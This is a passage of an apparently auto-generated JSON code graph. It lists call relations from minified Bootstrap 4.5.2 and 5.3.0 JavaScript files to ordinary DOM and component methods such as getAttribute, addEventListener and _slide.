"each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "escape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isPropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isImmediatePropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getDataAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_mergeConfigObj"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_mergeConfigObj"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getDataAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getDataAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_mergeConfigObj"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "this"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "eventName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focusableChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getMultipleElementsFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_destroyElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_destroyElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isSupported"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_eventIsPointerPenTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_end"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_eventIsPointerPenTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_handleSwipe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_move"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_handleSwipe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_eventIsPointerPenTouch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isSupported"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "nextWhenVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_updateInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "nextWhenVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "isSupported"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addTouchEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addTouchEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeEnableCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_keydown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setActiveIndicatorElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 